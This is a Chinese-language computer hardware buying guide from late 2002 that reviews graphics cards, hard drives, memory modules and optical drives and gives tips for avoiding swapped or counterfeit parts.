擒雷者Ti4200采用nVIDIA GeForce4 Ti 4200的显示核心，运行频率为250MHz，PCB板的正反面各采用了4颗TSOP封装的4纳秒的现代（Hynix）DDR显存，容量共计64MB，运行于206MHz。擒雷者Ti4200仍然保持了nVIDIA的公板设计，在显存方面，它和GeForce4 Ti 4200一样采用现代出品的4纳秒颗粒。

从外观上看，擒雷者Ti4200给人印象最深的就是那个硕大的散热器。这款散热器同nVIDIA的公板样品很相似，由此也保证了良好的散热性能，对超频有所帮助。在显示接口上，它去掉了DVI以及TV-out部分，只保留了VGA接口，并在捆绑软件上也略显简单。正是这些精简的部分节省了成本，对于那些没有液晶显示器和TV输出要求的用户，这样的精简似乎也节省了投资。擒雷者Ti4200的性能和超频性得益于它的设计和散热器，因此其性价比非常突出。这款产品适合那些使用CRT显示器的用户，并且比较看重性价比的用户。

## 太阳花钛子440

太阳花钛子MX440显卡采用的是六层PCB板，使用了大量的高品质的电解电容来保证显卡稳定工作。整块显卡的做工非常精致，铝质贴片电容很有规律地排列在显卡的正面，同时正背面的焊点异常饱满、细致。另外，在散热装置方面，这块太阳花采用超强的散热方式，在芯片上加装了一块非常巨大的散热片，为超频提供更好的条件。另外，在显存的选择上，太阳花钛子440使用的是HY显存，而且是一颗4ns的4×32 DDR SGRAM显存颗粒，128bit 64MB DDR的配置相比于标准MX440的-5ns DDR SDRAM的配置，显存工作频率提高了100MHz（-5ns DDR的显存工作频率为400MHz，而-4ns DDR显存工作频率可支持500MHz），并且DDR SGRAM的显存其超频能力比DDR SDRAM要高出很多，所以这块太阳花钛子440的超频性能将更为优秀。

## 建邦GF4 MX440-8X显卡

建邦GF4 MX440-8X采用了3.6纳秒Micro BGA封装的HY DDR显存，核心/显存工作频率为275/500MHz。在输出接口方面，这款显卡支持双CRT、S-Video Out输出接口，借助nVIEW功能可完成多种灵活的双头输出组合。该款显卡相当于是MX440的升级版，线路设计以及基本的2D/3D功能并没有太大变化，只是提供了对AGP 8X的支持，而且显存也改用了Micro BGA封装的DDR显存，在要求较高的游戏、高级工作站、图形处理等方面会更有优势。由于频率的提高以及数据传输带宽的成倍增加，建邦GF4 MX440-8X显卡在3DMark 2001SE、Quake III等实际测试中表现不错，尤其是在OpenGL性能方面更为突出，因此这款NV18显卡性能与MX440相比提升了很多。

## （三）显卡选购须知

显卡的选购有些类似于主板。首先是要观察显卡的用料和做工，对于PCB板的判断与主板相同，请参看主板选购部分。在布线方面，一般图形芯片厂商都会有一个共同的规范，这就是所谓的公板设计。公板设计并不一定是最好的设计，因为图形芯片厂商要照顾所有显卡厂商的生产能力，因此在保证芯片性能的前提下会节省和简化一些。而有实力的显卡厂商的工程师会对公板布线做比较全面的研究，然后找出其中的不足和简化的地方，自行修改线路。这样设计出来的非公板线路往往在性能上会比公板线路更出色。因此，理论上非公板设计的显卡在性能和功能上会比公板设计的显卡更好。当然，ATi原厂设计生产的显卡在性能上应该是同类显卡中最出色的，这点不同于nVIDIA。好显卡在用料方面会显得很大气，不管是电感线圈还是电容都会使用优质的产品，并且不会出现电容和电感等器件东倒西歪的现象。在散热器的设计上，由于显卡散热器不大可能靠增加散热面积来改善散热效果，因此在小小的散热片上做文章才是改善散热效果的根本。比如ATi的原厂显卡散热器就在散热片上做了风道设计，利于空气的流动，能有效地增强散热效果。其次还要注意显存，现在的显卡同类型、不同型号产品的最大区别就在于显存的不同，而核心基本上是相同的。首先是对于显存位宽的计算，保证其能够达到图形芯片的要求。其次是看显存的速度，通过显存编号计算显存的标准运行频率。如果运行频率高于标称频率，那显卡的稳定性和超频能力都要大打折扣。另外，目前的显存分Micro BGA封装和传统的TSOP封装两种，Micro BGA封装的显存目前只有三星公司能够量产，其可运行频率也较高，通常用于高端产品上。如果较低端产品上也使用了这种显存，则显存的可超频性将大大增加。而TSOP由于其封装形式的限制，不可能达到高端显卡显存频率的要求，所以在挑选时一定要小心。由于目前的显卡市场竞争激烈，因此显卡厂商自己开发的驱动程序以及附送软件也是挑选时需要注意的。一些大牌显卡厂商比如艾尔莎、丽台等由于和nVIDIA关系密切，因此在驱动的开发上也比较领先，正是因为这个原因很多朋友将自己的杂牌显卡的BIOS刷成名牌显卡，并使用名牌显卡的驱动以提高显卡性能。最后提醒大家，一定要注意显卡的金手指。好的金手指颜色呈金色发暗，从侧面看具有一定厚度，而且边缘进行了打磨或者切割，不会对AGP插槽造成损伤（AGP槽被显卡损伤的事情是很常见的）。插在AGP槽上，应该可以让显卡拉起整个主板来，这样的金手指才能够保证显卡具有更长的寿命。

### 四、硬盘与内存篇

## （一）硬盘

### 1. 2002年下半年硬盘市场概述

2002年下半年，硬盘市场的的确比以往冷清了许多，唱主角的厂商也仅仅剩下了三个——Seagate（希捷）、Maxtor（迈拓）和Western Digital（西部数据）。

### （1）受伤的蓝色巨人

在过去的一年中，我们发现很多IBM的硬盘用户不断地在电脑市场上奔波，更换了一块又一块硬盘。在那次事件后，IBM宣布硬盘事业部与日立合并，由日立掌握70%的股权。一个在硬盘领域保持多年领先技术的厂商，就这样无奈地退出了。

### （2）春风得意的迈拓

由于收购了昆腾硬盘事业部，并经历了一段时间的技术融合，迈拓的发展速度达到了空前的高度。迈拓曾经仅是一个桌面硬盘厂商，但随着昆腾技术的融入，迈拓逐渐将业务领域拓展开来。先是以Atlas 10k Ⅲ向服务器硬盘领域跨出了第一步，接着又推出了外表酷似昆腾火球硬盘的金钻七代，而且还独自一人倡导ATA/133接口类型。虽然在ATA/133与SATA的标准之争中迈拓似乎仍然抵不过Intel，但是台湾芯片组厂商均表示支持ATA/133，而且目前能够提供ATA/133接口的硬盘产品也只有迈拓一家。在SATA真正到来之前，ATA/133也不失为一种折中的选择。

由于蓝德对迈拓产品的代理，使得迈拓硬盘成为市场上唯一一款三年全国联保的硬盘品牌。而且由于蓝德推出的各种活动，比如老用户换购大硬盘等，都对迈拓的品牌推广起到了很好的作用。目前的迈拓已经替代了IBM成为了很多用户的首选品牌。

### （3）平民法拉力——希捷

希捷自从成为私人企业后，其业绩的飙升有目共睹。在技术上，Seagate大力倡导Intel的SATA技术规范，并且在服务器硬盘领域也有不俗的表现。目前，希捷的产品质量已经得到了普遍认可。单碟40GB的酷鱼IV后又发布了单碟60GB的酷鱼V。

### （4）稳扎稳打的西部数据

迈拓收购昆腾拓展硬盘业务后，并没有使西部数据心动，WD仍然坚持自己只开发桌面硬盘产品的原则。由于专攻的领域就是桌面硬盘，因此WD的产品总能带给人们一些新意，比如其首创的在桌面硬盘上使用8MB缓存。从实用效果来看，8MB缓存的确能使磁盘性能得到明显提升，因此WD的鱼子酱硬盘成为了人们追逐的宠儿。虽然业务的单一能够减少研发的投资，提升其专攻领域的产品技术含量，但是单一的产品发展线也会制约公司今后的发展。因此，WD公司也可能效仿迈拓，涉足其它硬盘市场，我们可能将在笔记本硬盘领域看到WD的商标。

国内WD的代理商比较多，这也给用户的选购带来一定的困扰。代理商主要为：迪科视像、金喜来（eSys）、捷元、英特利（Interlead）、景汉、高标准（STD）、赞华（香港）和环亚。这些代理商有的主攻OEM市场，有的做零售代理，这也算是WD在代理商选择上的一个特色吧！

另外，虽然三星、富士通，日立等品牌的硬盘也会出现在市场上，不过由于价格等方面的因素，它们尚不具备冲击主流硬盘市场的实力。

### 2. 下半年主流硬盘产品概述

#### （1）IBM

IBM没有5400rpm的产品，目前市场上IBM的主流产品为腾龙四代（IBM Deskstar 120GXP），这已经是2001年11月推出的产品了。腾龙四代单碟容量40GB，平均寻道时间为8.5ms，外部接口为ATA100，转速7200rpm，拥有2MB缓存。从单碟40GB的产品综合表现来看，腾龙四代依然保持了IBM在性能上的优势。由于平均寻道时间较低，因此在读取零碎文件等一些商业办公领域的优势比较明显。不过在噪音和温度上，腾龙四代则没有太大改观。另外，由于迈拓、希捷和西部数据纷纷推出了单碟60GB和80GB的产品，因此腾龙四代的优势荡然无存。不过由于IBM授权长城在深圳生产腾龙四代40GB的产品，因此腾龙四代的价格优势比较明显。不过用老一代产品同对手竞争显然没有优势，而IBM的产品研发速度显然受到了质量问题的影响，变得缓慢了许多。不过IBM也已经发布了其单碟60GB的产品——180GXP（腾龙五代），并在其中采用Tag'n Seek技术和8MB缓存，相信其性能应该不俗。

#### （2）迈拓

迈拓硬盘的变化的确不小，最近中文名称已不再使用沿续多年的“金钻X代”、“星钻X代”，取而代之的是“金钻系列+产品英文名称”和“星钻系列+产品英文名称”。

在5400rpm领域，迈拓依然用星钻系列和美钻系列来打天下。前者主攻低价主流桌面市场，而后者主攻经济型应用市场。星钻系列DiamondMax 16（星钻四代）采用ATA/133接口，转速5400rpm，内置2MB缓存，提供了60GB、120GB以及最高160GB等多款容量，平均寻道时间约为12.1ms。虽然寻道时间较长，但是由于其采用了单碟80GB、ATA/133等设计，因此在5400rpm产品中，星钻的性能还算不错，目前的容量也足够满足一般家庭的需要了。

美钻三代（Fireball 3）面对的用户主要是商业用户和对产品价格比较敏感的用户。由于美钻采用单碟单磁头设计，因此其体积显得小巧轻便了许多。美钻三代也提供了ATA/133接口，内置2MB缓存，平均寻道时间小于11.3ms，但在容量上由于其设计所限只有40GB/30GB/20GB。不过由于是5400rpm的产品，迈拓又在其上应用了静音技术，因此美钻的发热和噪音都控制得相当出色。

在7200rpm产品中，金钻系列DiamondMax Plus 8和DiamondMax Plus 9是继金钻七代后出现的新产品。这两款产品给人们最大的印象就是回归了迈拓的硬盘外观，而不再像金钻七代那样采用以前昆腾火球硬盘的外观设计。

腾产品的外观。不过，真正替代金钻七代的应该是金钻系列DiamondMax Plus 9，而金钻系列DiamondMax Plus 8则更像是美钻的7200rpm版本。DiamondMax Plus 8由于采用了单碟单磁头设计，因此其最大容量只有40GB，也只有20GB、30GB和40GB三种型号，平均寻道时间小于9.7ms。做为美钻的7200rpm版本，DiamondMax Plus 8的磁盘性能有一定的提升，并且由于单碟、单磁头和采用同样的静音技术，DiamondMax Plus 8的温度和噪音都控制得非常好，甚至低于一些5400rpm的产品。因此DiamondMax Plus 8更适合那些对美钻性能不大满意的用户。

DiamondMax Plus 9是真正的金钻七代的继任者，它提供了容量60GB、80GB、120GB和160GB共计4种型号，并且采用了ATA/133和SATA两种接口，平均寻道时间小于9ms。在缓存上，ATA/133接口的DiamondMax Plus 9根据产品型号不同分别采用了2MB和8MB的缓存，而SATA接口的产品均采用了8MB缓存。做为高端产品的代表，DiamondMax Plus 9的性能表现十分出众，尤其是在其8MB缓存的版本中，DiamondMax Plus 9的多项性能均保持前列，是追求磁盘性能的用户的首选。

迈拓硬盘运用了比较先进的技术，在噪音和发热方面控制得非常出色。不过在平均寻道时间上，相对于其它品牌的同档次产品则有些落后。在综合性能上，迈拓产品的表现比较平均，没有明显的弱项。另外，只有迈拓还在不断地开发新产品，并把新技术运用到5400rpm的产品中去，而其余的厂商都不同程度地弱化了对5400rpm产品的开发和宣传，因此，在5400rpm的产品中，迈拓的星钻和美钻具有比较大的优势。

#### （3）希捷

在5400rpm产品上，希捷没有投入太大的精力，U6仍然扮演着主要角色（如图31）。U6属于上一代产品，单碟容量40GB，采用ATA/100接口，平均寻道时间8.9ms，内置2MB缓存。由于是上一代产品，因此U6同星钻四代等新一代产品的竞争肯定不占优势。不过其低廉的价格还是适合对价格比较敏感的学生、网吧、学校等用户。

在7200rpm的产品上，希捷的脚步明显加快。虽然目前的主流产品仍为酷鱼IV，但是随着酷鱼V的上市，7200rpm硬盘市场势必又将掀起一轮新的硬盘淘汰赛。

酷鱼IV为单碟40GB的产品，平均寻道时间9.5ms，内置2MB缓存，采用ATA/100接口。在同为单碟40GB的产品中表现出色，磁盘性能和综合性能均处于前列。在酷鱼IV上，由于采用了液态轴承马达，噪音问题得到了有效控制，只不过在发热量上还有待提高，长时间运行后的酷鱼IV可不够凉快。

酷鱼V为单碟60GB的产品，平均寻道时间9.0ms，内置缓存仍然为2MB，采用ATA/100和SATA接口，ATA/100产品分40GB、60GB、80GB和120GB四种型号，而SATA则只有80GB和120GB两种。在支持SATA的问题上，希捷的态度是非常明确的：采用SATA接口的产品将使用8MB的数据缓存。做为酷鱼IV的换代产品，酷鱼V在各项参数上都有所提高，在随机读取时间、突发数据传输速率以及CPU占用率上都比酷鱼IV有明显的优势。在温度和噪音的控制上，酷鱼V做得比较出色，不但继承了酷鱼IV的安静风格，而且在运行温度上也有了改进。同时，酷鱼V的价格也不高，保证了希捷产品一贯的性价比优势。

希捷的产品总体看来比较平均，而且性价比适中，在用户中的口碑非常好。

#### （4）西部数据

西部数据的硬盘除了5400rpm和7200rpm的定位以外，还有特别版（Special Edition）之分。特别版采用8MB缓存，并且在各大硬盘厂商分别调低产品质保年限后仍然拥有3年的质保（如图32）。

## （二）内存

### 1. 2002年下半年内存市场概述

在2002年，内存的价格似乎稳定下来，没有出现太大的波动，而内存的标准之争也基本尘埃落定。DDR SDRAM这种在SDRAM内存基础上改进的产品得到了众多芯片组厂商的全力支持，而有着更先进技术、更广阔发展空间，但是价格昂贵的RDRAM最终被冷落。这一现象说明，技术最终还是要屈服于市场。

目前，包括Intel在内的厂商都已在产品中正式提供了对DDR内存的支持，而主流产品中只有Intel的i850E为RDRAM保留了一片天空。但是从目前的性能表现来看，搭配RDRAM的P4系统在性能上有着更好的发挥，因此在高端市场上RDRAM仍然有其存在的空间。

由于并行总线的固有限制，DDR内存的运行频率很难大幅度提升。而最新的DDR400的内存带宽只能够勉强满足上一代400MHz前端总线的P4的“胃口”。正因为此，JEDEC协会公布了DDR II内存标准。DDR II内存将是现有DDR I内存的换代产品，它的工作频率预计将为400MHz或更高，主流内存市场将从现在的DDR333产品直接过渡到DDR II。

目前市场上的DDR内存似乎占据了市场的主流，但是发展到DDR400，标准已经有些混乱了。下一代的DDR II融合了RDRAM的一些技术，并且为了提升工作频率而增大了延时。但DDR II与目前的DDR内存并不兼容，这对于那些期待升级的用户来说是个不好的消息。而RDRAM也在经历着自身的变革，下一代RDRAM产品将采用双通道内存控制技术，内存的位宽将由16bit提升到32bit。再加上串行工作方式的特性，RDRAM的频率提升易如反掌，这样就可以比较轻松地解决内存的带宽问题。不过，新的RDRAM内存槽虽然同以前的插槽长度相同，但是二者并不兼容。因此，不管是选择DDR还是RDRAM对今后的升级都没有任何帮助。

### 2. 下半年主要内存品牌及产品推荐

- (1) KingMax DDR400 内存 (如图33)

    
    图33 KingMax DDR400 内存标识

    KingMax是最先发布并量产DDR400内存的制造商，我们已经在市场上见到其DDR300、DDR333和DDR400等三款内存产品。由于KingMax所提供的DDR400内存颗粒仍然沿袭了KingMax特有的TinyBGA内存封装方式。TinyBGA封装技术与传统的TSOP内存封装技术相比具有高内存容量、高散热功率、低成本等优势。使用TinyBGA封装技术的内存产品在相同容量下，体积较TSOP封装更小；另外，与传统TSOP封装方式相比，TinyBGA封装方式的速度更快，散热效果更好，特别是在高频产品中(一般在333MHz以上)，TinyBGA封装方式的优势会更加明显。

    KingMax DDR400内存使用了5纳秒的内存颗粒，编号为KDL684T4AA，内存表面的产品标识上清楚地标明了内存的CL值为2.5(如图34)。而KingMax可能还会在未来提供速度更快的CL值为2的DDR400产品(如图33)。在兼容性方面，KingMax DDR400内存表现还算不错，在绝大多数i845E主板上用异步方式工作不会出现不兼容的问题。不过由于DDR400标准的混乱，能不能在所有主板上异步使用DDR400还是未知数。不过KingMax的服务还是不错的，笔者曾经有一条KingMax的内存有兼容性问题，说明情况后商家予以了调换。

    KingMax的产品通常在性能上可以保持领先，但是其产品的版本过于复杂，有些老型号内存同新主板不兼容，还有些同型号产品的PCB板颜色也不相同，这给用户的选购带来了一些困扰。芯片组市场更新换代频繁，因此保证推出的每一款内存产品同所有的主板兼容对任何一个厂商来说都是不大现实的。因此，KingMax正是通过频繁地修改产品来最大限度地保证对最新主板的支持。

    

- (2) Apacer DDR400 SDRAM内存(如图35)

    
    图35 Apacer DDR400内存

    Apacer DDR400内存采用Winbond（W942598BH-5）5纳秒颗粒(如图36)，单面封装，同众多品牌内存一样，Apacer DDR400内存零售产品附有完整的包装盒。虽然其内存标识上的CL值为2.5(如图37)，但是Apacer DDR400内存也可稳定运行于CL = 2的400MHz下，由此可以看出其出色的超频性和稳定性。

    
    图36 Apacer DDR400内存颗粒

    
    图37 Apacer DDR400内存标识

- (3) Kingston DDR333内存(如图38)

    
    图38 Kingston DDR333内存

    作为全球最大的独立记忆体制造公司之一，Kingston拥有1500种以上的存储产品，是很多国际性品牌机的OEM供应商(如Toshiba，Hitachi)。在零售市场上，Kingston拥有非常好的口碑。由于DDR400在规范上尚未统一，因此以稳定著称的Kingston并没有急着推出DDR400的内存产品。Kingston DDR333内存采用了南亚科技(Nanya)的颗粒，而不同于其他常用的SEC(三星)、Winbond(华邦)、Toshiba(东芝)、Hynix(现代)和Infineon(西门子)颗粒。Kingston DDR333内存的颗粒编号为KVR333X64C25/128，不同于Kingston DDR266内存所使用的KVR266X64C25/128颗粒(从图38上还可以看到Kingston DDR333内存上贴有质量检验协会的保真标贴)。这款内存秉承了Kingston的一贯品质，在兼容性、稳定性上做得非常出色。如果您对内存品质的要求较高，那Kingston DDR333内存应该是您的首选。

- (4) 三星 RDRAM

    RDRAM的产品远比DDR要少得多，在市场也只能看到三星和现代两种RDRAM产品，而现代的多数产品还是PC600的。因此，目前国内市场上选购RDRAM产品就只能首选三星了。

    三星在RDRAM的开发生产上一直持非常积极的态度，是第一批向Rambus交纳授权金以获准生产RDRAM的厂商。在RDRAM的后续产品开发上，三星也显得不遗余力，三星新一代的RIMM4200产品也已上市。在目前的RDRAM产品线上，三星也是最全的，从16bit的PC600~PC1066到32bit的RIMM4200都可以在市场上找到。因此，如果您打算投靠Rambus，三星的RDRAM产品便是您的首选。

### 3. 硬盘的选购

由于硬盘的型号固定，其技术参数也就固定了，所以商家无法通过个人手法改变其特性。不过需要注意的是，有些商家利用客户对硬盘标识的不熟悉用5400rpm的产品代替7200rpm的产品。最典型的例子就是西部数据的5400rpm的AB和7200rpm的BB系列。由于只相差一个字母，因此一些JS就利用这一点来偷梁换柱。另外，商家对硬盘的质保都是建立在外形完好无损的基础上的。因此，一些外形有缺陷（比如擦伤、划伤等）的产品在选购时要注意避免。不要相信商家所说的所谓“没关系，不影响质保”或者“不要紧，不影响使用”之类的话。

### 4. 内存选购注意事项

不管是DDR还是RDRAM，像以前一样通过打磨芯片来作假的可能性已经微乎其微。不过，不同的内存厂商在内存颗粒、电路板等用料上还是有差距的。名牌内存大都采用诸如Hynix(现代)、Infineon(西门子)、TOSHIBA(东芝)、SEC(三星)、Micron(美凯龙)、NEC(日本电气公司)、Mitsubishi(三菱)等名牌大厂的颗粒，而小厂商通常会使用不知名厂商的颗粒。不过这里要做个说明，一些台湾厂商的颗粒质量不错，但是可能并不被广大用户所熟知，这里向大家介绍几个比较著名的台湾厂商：Mosel(茂矽)、Nanya(南亚)、Winbond(华邦)、UMC(联华电子)、Vangourd(台机电、又称世界先进)、Elitemt和Esmt(晶豪电子设计，多由联华电子代工)、ASCEND(登峰半导体)、TwinMOS(勤茂)、ViGOUR(新林)、EtronTech(钰创)。这些台湾厂商的颗粒并不亚于国外的一些名牌大厂，并且还占有价格上的优势，可不要将他们列为杂牌厂商啊！

除了内存颗粒外，PCB板的质量也是需要考察的重点之一。优秀的PCB板多采用6层板，层数的增加可以有效地减少电路层之间的干扰，对提高稳定性和超频性有很大的帮助。有些产品还在颗粒表面增加了一层类似于RDRAM的金属屏蔽层，对屏蔽外界干扰能起到很好的作用。

另外，在选购DDR内存时要特别注意一下兼容性问题。由于现在的DDR400还没有明确的规范，所以有些小厂也打出了DDR400的旗号，但是在延迟时间、兼容性和稳定性上都无法与名牌产品相比。因此，如果对DDR400不迷信，还是推荐购买技术更加成熟的DDR333内存。

最后，在RDRAM的选购上一定要注意型号的区别。目前市场上的RDRAM产品主要有PC600、PC800、PC1066等三种，RIMM4200由于外形与传统的RDRAM不同，因此在选购时出现混淆的可能性不大。不过由于RDRAM的颗粒外面均带有一层金属屏蔽罩，因此通过颗粒识别型号显然是行不通的。所以，我们除了对金属外壳表面的标识进行识别外，还应该在购买时实测一下，避免奸商的鱼目混珠。

### 五、存储驱动器篇

存储驱动器只是一个笼统的叫法，其主要分为光储和磁储两大类。

### （一）2002年下半年光驱、DVD、刻录机、COMBO市场概述

光储产品的革新速度似乎快了起来，相对于几年前单纯提高光驱读取速度的做法，近两年光储市场的变化则比较大。2000年是光驱品牌最多的一年，许多老牌厂商在推出DVD驱动器的同时，也推出了经过各种纠错技术包装的普通光驱产品，而一些从前并未涉足光驱领域的厂商也通过OEM或其它方式推出了高速光驱产品。一时间光驱品牌漫天飞舞，各种经过小小改进的光驱产品也披上了华丽的外衣重新上市，如PS光驱、可刷新纠错芯片的光驱等。

到了2001年，光驱的火热已经被刻录机的跳水所取代，刻录机的速度和价格在经过一段大幅度的下降后，也进入了用户的心理价位。而DVD驱动器的待遇与刻录机非常相似，随着价格的下降，逐步替代了光驱在很多人电脑上的位置。因此，在2002年出现了COMBO这种集光驱、刻录机、DVD于一体的产品。由于其价格比单独购买这三种产品要便宜不少，所以初一上市就受到了很多用户的欢迎。

虽然光储市场的技术含量相对较低，但是能真正在这个市场上做大做久的厂商都是那些有实力的老牌厂商。记得2000年叱咤风云的中科大白鲨系列光驱、阿帕奇系列光驱和美达光驱等市场占有率相当高的产品，在刻录机、DVD和COMBO的冲击下，这些厂商的产品都已很难见到，而SONY、三星、明基等老一代存储厂商依然可以在2002年笑傲江湖。其中，经华旗资讯精心打造的爱国者光驱在光储市场上的表现也相当不错，相继推出了刻龙刻录机、读龙DVD等一系列口碑不错的产品，成为国产光储品牌的成功典范。

### （二）2002年下半年主流光驱、DVD、刻录机

### 1. 光驱产品推荐

现在光驱类产品的宣传重点已不再是速度和读盘率上的优势，而是售后服务和静音技术。因此，选择售后服务出色，噪音控制得比较好的产品显得比较合适，而纠错率和速度的差距已经不大了。

- (1) 明基(BenQ)“蓝色魅力”52×光驱(如图39)

    
    “蓝色魅力”52×光驱其实就是蓝色魅力套装中的光驱，而明基将它和“银色月光”套装中的光驱做了单独销售。

    “蓝色魅力”52×光驱秉承了明基光驱的一贯特色，其读盘性能优秀，兼容性好，可以兼容多种光盘格式。另外，在寻道时间和CPU占用率上，“蓝色魅力”52×光驱控制得相当不错。在令高速光驱头疼的噪音问题上，“蓝色魅力”52×光驱虽不能说尽善尽美，但是凭借其一体化设计，将噪音完全控制在了可接受的范围内。在保修的问题上，明基光驱执行的是一贯的三月保换、一年保修标准。另外，“蓝色魅力”和“银色月光”在外观的颜色上避免了传统光驱产品的白色，配合蓝色和银色的机箱更能够突出时尚品位。

- (2) 爱国者52×光驱

    爱国者在产品外观的设计上似乎没有明基那么下功夫，从显示器到光驱，都采用了比较传统的外型方案。不过在内在品质上，爱国者52×光驱采用了智能纠错和智能平衡两大技术来保证光驱的读盘率和控制噪音。同一些产品的迷宫式结构、一体化等降低震动带来的噪音的设计相比，智能平衡技术从根本上降低了盘片在光驱内的震动，也就遏制了噪音的产生。这种主动的降噪技术使爱国者52×光驱的噪音水平保持在一个令人相当满意的程度。在服务上，爱国者承诺的也是三月保换，一年保修。

### 2. 刻录机产品推荐

刻录机在经历了去年年底的大跳水后，现在的发展速度依然强劲。随着高速刻录盘的普及，高速刻录机的优势也越来越明显。在刻录机的选购上，防刻死技术已经不再是重点，目前各家的防刻死技术均可以达到比较满意的效果，而且刻录软件也提供了对各种防刻死技术的支持。在刻录速度上，目前的主流产品都达到了32×，个别品牌出现了40×的产品。不过，目前市场上支持40×的盘片还不多见。下面来看看具体的产品：

- (1) 建兴LTR-32123S刻录机（如图40）

    建兴（以前的源兴）可是老牌的光存储厂商了，其光储产品的口碑一向不错。从外观上看，建兴LTR-32123S刻录机面板设计得非常简单，外形方方正正，只在底部标有32×12×40的字样。该刻录机采用了内置防尘胶垫设计，并具有了Smart-Burn刻录保护技术。建兴LTR-32123在竖直放置时也能正常工作，读写性能及兼容性都很好，工作状态也极为稳定，实际性能与标称值基本相符，颤动和发热量控制得不错，只是噪音略微偏大。做为一款老牌光储厂商的主流产品，建兴LTR-32123S的确称职。

    

- (2) 爱国者CDR-3240S刻录机（如图41）

    
    爱国者CDR-3240S的造型并不突出。在技术方面，爱国者宣称采用了Smart-Clone刻录保护技术，该技术在Burn-Proof的基础上，又增添了智慧型读速监控调整功能，可根据盘片质量及镭射头的功率自动调整烧录速度，以避免因盘片质量和镭射头功率过大导致的烧盘问题，双重保障刻录成功率。另外，爱国者CDR-3240S对低价盘片的兼容性比较好，在使用标称刻录速度比刻录机低的盘片时，Smart-Clone刻录保护技术就会发生作用，将刻录速度限定在一个安全的范围内，避免刻“飞”盘。做为国内光储产品的代表，爱国者的CDR-3240S刻录机的综合表现比较平均，是一款出色的产品。

- (3) 摩西48X光盘复制机

    摩西48X光盘复制机采用了内置式IDE或AFAP接口，拥有最高48倍速CD-R刻录、16倍速CD-RW擦写以及48倍速CD-ROM读取能力，具有2MB的缓冲区，内建耳机插孔与音量控制扭，支持读取CD-R与CD-RW的盘片。该复制机兼容所有操作系统，支持CD-ROM、CD-DA、Video-CD、CD-ROM/XA、Mixed mode、Photo CD、CD plus、CD Extra、CD-G、CD-Text、Bootable CD 等所有盘片格式。摩西48X光盘复制机还采用一次成型锌压铸基座，可以有效的减震降噪，保持平衡；另外，它还采用了激光功率校正与精密链接的技术，利用脉幅调制控制马达，在复制机内部，还装有震动传导装置，可自动吸纳内部震动，足以保证这款光盘复制机的高可靠性、高稳定性。

### 3. DVD产品推荐

随着DVD的降价，更多的用户已经开始用DVD来代替传统光驱了。生产厂商也都相继将自己的重点放在了DVD光驱上，比如SONY很久以前就放弃了CD-ROM的生产(SONY的CD-ROM产品均为其它厂商OEM产品)，转而专心生产DVD-ROM。因此，现在的DVD市场很像当年的光驱市场。

下面向大家介绍两款市面上的主流16× DVD-ROM产品。

- (1) 明基(BenQ)DVP1648A(如图 42)

    
    明基的DVP1648A在外观上显得方方正正，明基可很少出现这样朴素的产品。DVP1648A的面板右侧仅放置了进/退盘键，显得相当干净。极少使用的急退盘孔安排在耳机插孔的右上方，读盘指示灯也改成长方形。另外，明基DVP1648A运用了自拍档技术，在提高光驱读盘能力和纠错能力的同时，也降低了噪音。DVP1648A采用的是单光头双激光技术，免去了因更换激光头或聚焦镜所带来的时间占用，也在一定程度上避免了机械故障，提高了读盘速度。总体上看，明基DVP1648A继承了CD-ROM时代的一些特点，又保持了创新，我们有理由相信明基的产品会受到更多用户的认同。

- (2) 先锋托盘 DVD-117(如图 43)

    作为参与制定DVD规格标准的公司之一，先锋在全球DVD市场中均占有极大的份额。不管是作为DVD-ROM的生产厂商，还是向国内DVD生产商提供关键元件的上游厂商，先锋都能够生产从前端数据处理器、伺服DSP、MPEG AV解码器、马达驱动器系统控制元件到横移机构、装载机构、光头等机芯设备，具有很强的技术实力。

    
    先锋的托盘光驱似乎不如吸盘式光驱来得知名。不过做为DVD界的元老级厂商，这款DVD-117在性能上还是保持了一定的优势，只是其价格也比市场同类产品稍高一些而已。

### 4. COMBO产品推荐

COMBO在一年前还只是个概念性的东西，没想到一年后就真真切切的来到了我们身边。目前，在COMBO光驱里最出名的就是三星的康宝光驱了。COMBO SM332B为金黄色，同三星的光驱产品如出一辙。金色也让COMBO SM332B显得高贵了许多。COMBO SM332B前部面板上标注了DVD ROM和RW COMBO的字样。其舱门托盘一体化、可充当指示灯的透明按键以及光驱短身等特色设计均在COMBO SM332B上得到应用。COMBO SM332B提供的CD-R刻录速度为32×，CD-RW的刻录速度为10×，DVD的读取速度为12×，CD-ROM的读取速度为40×。作为一个多功能光驱产品，在各项功能上都达到了主流水平，的确值得称道。在技术上，SM332B采用了三星独有的环纹透镜专利技术，利用不同波长激光的缝隙穿透特性，将物镜内圈和外圈区域分别切割成0.6微米和0.45微米宽的环状缝隙，以

    

达到对不同波长激光精确聚焦的效果。另外，SM-332B同时具备ABS自平衡系统、DVA共振吸收技术和最新的D6结构等光驱技术，并结合了CD-RW和DVD-ROM光驱的结构特点来达到降噪、减震和散热的效果。作为一款多功能光驱的代表，COMBO SM332B将可能出现的技术问题处理得相当不错，作为三种光驱的替代产品十分称职（如图44）。

## （三）2002年下半年移动硬盘、USB闪盘市场及产品简介

光储产品虽然成本低廉，但是由于其写入速度较慢、重写次数较低、可移动性差，在一定程度上制约了其市场拓展能力；而移动硬盘和USB接口的闪盘则填补了这一空白。其中，移动硬盘主要面对的是需要较大空间的移动存储用户，而USB闪盘的使命则主要是替代软驱，面向的用户更加广泛，移动硬盘和USB闪盘特性比较请参见表10。

## 表10 移动硬盘和USB闪盘特性比较

| 特点 | Flash ROM | 硬盘 |
| --- | --- | --- |
| 便利性 | 非常方便 | 有些产品需要外接电源 |
| 便携性 | 非常小巧 | 需要与体积较大的电脑或笔记本产品 |
| 容量成本 | 较高 | 较低 |
| 最大容量 | GB级别 | 百GB级别 |
| 理论读写性能 | 差 | 好 |
| 抗震性 | 不受震动影响 | 对震动有一定要求 |

移动硬盘通常由台式机硬盘、笔记本硬盘加外部控制电路、外壳及电源组成。外部接口主要有IEEE1394火线接口和USB接口两种。由于IEEE1394接口尚不普及，因此国内市场上的移动硬盘产品大多采用USB接口。其中，迈拓爱国者的移动硬盘较为知名。

